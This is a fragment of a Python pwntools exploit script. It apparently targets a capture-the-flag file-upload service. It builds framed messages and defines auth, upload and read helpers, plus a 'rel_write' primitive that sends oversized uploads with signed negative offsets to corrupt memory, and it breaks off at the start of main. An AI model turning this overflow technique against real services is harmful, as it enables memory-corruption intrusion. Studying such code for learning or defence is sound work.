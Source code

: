 ```py
        if isinstance(f, bytes):
            ret += f
        else:
            ret += str(f).encode()
        ret += b"|"
    return ret

def recv_msg():
    r.recvuntil(b"|")
    code = int(r.recvuntil(b"|", drop=True))
    size = int(r.recvuntil(b"|", drop=True))
    data = r.recv(size)
    r.recvuntil(b"|")
    ret = {"code":code, "size":size, "data":data}
    if VERBOSE: print(ret)
    return ret

def auth():
    r.send(f([AUTH, 3]))
    pause()

def is_logged():
    r.send(f([IS_LOGGED]))
    return recv_msg()["data"] == b"You are logged in"

def upload(filename_len, filename, size, data):
    r.send(f([UPLOAD, filename_len, filename, size]) + data)
    return recv_msg()["data"]

def read_file(filename):
    r.send(f([READ_FILE, len(filename), filename]))
    return recv_msg()["data"]


def rel_write(offset, data, pwned=False):
    if offset < 0:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  0x1004])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause()
        r.send(data.ljust(0x1000 - offset, b"A") + p32(0x133700)) # big value
        pause()
    else:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  offset + len(data)])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause() 
        r.send(data)
    if not pwned:
        msg = recv_msg()
        return msg["data"]


def main():
    global r

    r = conn()
    attach_gdb()

```